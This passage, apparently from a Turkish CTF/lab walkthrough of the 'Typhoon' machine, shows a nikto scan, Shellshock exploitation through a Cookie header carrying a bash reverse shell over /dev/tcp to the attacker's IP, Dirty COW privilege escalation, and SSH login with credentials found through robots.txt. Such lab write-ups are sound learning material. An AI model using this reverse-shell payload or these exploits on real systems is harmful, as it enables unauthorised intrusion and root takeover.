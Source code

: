![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/4.1.png){: .align-center}

```
nikto -host http://192.168.44.129
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/5.png){: .align-center}

Nikto çıktısında merak uyandırıcı birkaç bir şey buldum ve shellshock zafiyetini kurcalamaya karar verdim.

## Shellshock

**Bash, kendisine web uygulaması tarafından yollanan komutları da çalıştırabilmektedir ve shellshock zafiyetinin oluştuğu kısım ise bu özelliğin kötü amaçla kullanılmasıdır.**

/cgi-bin/ klasörü altında bulunan dosya üzerinden bu zafiyet istismar edilebilmektedir. Burp Suite yardımıyla araya girerek isteği yakaladım ve backdoor oluşturacak zararlı kodumu Cookie’ye ekleyerek isteği yolladım.

```
Cookie:() { :;}; echo; /bin/bash -i >& /dev/tcp/192.168.44.128/5555 0>&1
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/6.png){: .align-center}

5555 portunu dinlemeye başladım. İstismar başarıyla sonuçladı ve shell’i aldım.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/7.png){: .align-center}

ssh’da kullandığım exploit çalışmadı biraz araştırmayla [Dirty COW](https://www.exploit-db.com/exploits/40616) adlı başka bir exploit buldum. Exploit’i kendi makineme indirip derlerken hata aldım fakat kullanılabilir durumdaydı bu yüzden hedef makineye çektim. 

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/shellshockgcc.png){: .align-center}

Daha sonra exploit’i çalıştırınca root yetkisini elde ettim.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/shellshockexploit.png){: .align-center}

## robot.txt ve MongoDB

Web Crawler’ların erişmemesi için robot.txt’ye MongoDB dizini eklendiğini gördüm. Böylece MongoDB dizininden haberim oldu ve dizine gittiğimde bazı yararlı bilgilerle karşılaştım.

robot.txt --> ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/8.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/9.png){: .align-center}

ıd:typhoon pw:789456123 bilgilerini kullanarak ssh servisi ile bağlandım. Daha önce kullandığım exploit burda da kullanılabilir durumdaydı ve bahsi geçen exploit yardımıyla root yetkisini aldım.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/typhoon/typhoonexploit.png){: .align-center}
